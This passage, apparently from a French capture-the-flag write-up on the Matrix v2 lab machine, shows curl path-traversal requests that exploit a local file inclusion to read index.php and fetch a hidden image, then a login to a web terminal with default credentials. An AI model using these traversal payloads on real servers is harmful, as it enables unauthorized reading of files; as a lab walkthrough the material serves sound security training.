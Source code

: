 Cette LFI nous donne l'occasion de consulter non seulement le code source de la page ```index.php``` elle-même...

```console
root@blinils:~# curl --insecure https://192.168.56.101:12322/file_view.php --data "file=../../../../../var/www/index.php"
<!DOCTYPE html>
<html lang="en" >
<head>
<meta charset="UTF-8">
<title>Welcome in Matrix v2 Neo</title>
--snip--
<!--img src="h1dd3n.jpg"-->
<br/><br/><br/><br/><br/><br/><br/><br/><br/><br/>
<div class="container"> <div class="text"></div> </div>
--snip--
</html>
```

Bizarre, ce fichier ```h1dd3n.jpg``` n'apparaît pas dans le code source des pages Web visitées.

Est-ce l'élément permettant de passer à la suite du CTF ?

```console
root@blinils:~# curl --insecure https://192.168.56.101:12322/file_view.php --data "file=../../../../../var/www/h1dd3n.jpg" --output h1dd3n.jpg
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 25102    0 25052  100    50  2224k   4545 --:--:-- --:--:-- --:--:-- 2451k
```

## Stéganographie (partie 1/2) et accès à Shell In The Box

Peut-être est-ce une épreuve de [stéganographie](https://en.wikipedia.org/wiki/Steganography) ? Le nom du fichier signifie-t-il qu'un message caché se trouve dans cette image ? Malheureusement, aucun élément probant dans les métadonnées de l'image ([__exiftool__](http://www.sno.phy.queensu.ca/~phil/exiftool/)), aucun message caché dans les bits de poids faible de l'image ([__StegSolve__](http://www.caesum.com/handbook/stego.htm), [__zsteg__](https://github.com/zed-0xff/zsteg)), et rien dans le fichier lui-même ([_strings_](https://en.wikipedia.org/wiki/Strings_(Unix)), [_grep_](https://en.wikipedia.org/wiki/Grep)). Tel un [fusil de Tchekhov](https://en.wikipedia.org/wiki/Chekhov%27s_gun), ce fichier image sera certainement utile par la suite. Pour l'heure, c'est au tour de l'émulateur de terminal SSH d'être testé (port 12320) et... oh surprise, le couple d'identifiants ```testuser:testuser``` fonctionne aussitôt !

```console
Matrix_2 login: testuser
Password: [testuser]
Last login: Sat Dec  8 08:46:10 UTC 2018 from 127.0.0.1 on pts/0
Welcome to Matrix_2, TurnKey GNU/Linux 15.1 / TurnKey 9.6 Stretch

--snip--

Linux Matrix_2 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64

===================================================================================

No directory, logging in with HOME=/
$
```
